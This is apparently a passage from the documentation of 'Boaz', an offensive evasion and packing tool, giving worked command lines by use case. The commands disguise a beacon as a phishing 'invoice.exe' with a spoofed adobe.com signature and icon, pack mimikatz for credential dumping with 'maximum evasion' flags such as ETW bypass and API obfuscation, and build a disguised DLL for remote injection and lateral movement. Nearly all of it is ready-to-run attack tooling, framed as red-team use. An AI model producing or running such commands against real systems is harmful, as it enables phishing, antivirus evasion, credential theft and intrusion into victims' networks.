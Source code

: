 ## Examples by Use Case

### Red Team Initial Access

```bash
# Phishing payload with social engineering
python3 Boaz.py \
  -f beacon.exe \
  -o invoice.exe \
  -t donut \
  -l 16 \
  -e uuid \
  -c akira \
  -obf \
  -entropy 2 \
  -s www.adobe.com \
  -icon
```

### Post-Exploitation Tool

```bash
# Mimikatz with maximum evasion
python3 Boaz.py \
  -f mimikatz.exe \
  -o credential_dump.exe \
  -t donut \
  -l 51 \
  -e aes \
  -c akira \
  -obf \
  -obf_api \
  -g \
  -etw \
  -cfg \
  -d \
  -af
```

### Lateral Movement

```bash
# Remote injection DLL
python3 Boaz.py \
  -f lateral.exe \
  -o wmi_provider.dll \
  -dll \
  -l 38 \
  -e chacha \
  -c pluto \
  -u \
  -dream 1000
```
